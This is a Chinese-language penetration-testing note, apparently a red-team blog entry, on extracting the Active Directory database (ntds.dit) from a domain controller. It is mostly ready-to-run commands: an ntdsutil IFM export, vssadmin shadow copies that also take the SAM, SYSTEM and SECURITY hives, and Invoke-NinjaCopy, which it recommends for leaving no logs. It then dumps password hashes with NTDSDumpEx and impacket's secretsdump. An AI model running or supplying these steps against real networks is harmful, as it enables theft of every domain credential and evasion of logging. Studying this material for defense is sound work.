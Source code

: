 在域中的所有账号密码被存放在了 ntds.dit 文件中，如果获取到该文件就相当于拿到整个域权限，不过该文件只在域控中。

ntds.dit 文件位置:

```
C:\Windows\NTDS\NTDS.dit
```

### 导出 ntds.dit

Ntdsutil 导出 ntds.dit 和 system 文件，并放在 C 盘目录下

```
Ntdsutil "activate instance ntds" Ifm "create full C:\ntdsutil" Quit quit
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210812181529.png)

vssadmin 导出 ntds.dit

```
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ntds.dit
# SAM 等文件也可以使用 vssadmin 导出

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\sam.hiv
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\system.hiv
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\security.hiv
```

NinjaCopy 脚本也可以，这种方法没有调用 Volume Shadow Copy 服务，所以不会产生日志文件

```
Import-Module -name .\Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path "C:\windows\ntds\ntds.dit" -LocalDestination "C:\ntds.dit"
```

### 获取 HASH

NTDSDumpEx 查看 ntds.dit，下载地址：[https://github.com/zcgonvh/NTDSDumpEx/releases](https://github.com/zcgonvh/NTDSDumpEx/releases)

```
NTDSDumpEx -d ntds.dit -s system.hiv -o domain.txt
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210811174802.png)

或者使用 impacket 里的 secretsdump.py 脚本查看 ntds.dit 内容，下载地址：[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

```
python3 secretsdump.py -ntds ntds.dit -system system.hiv LOCAL
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210811175616.png)
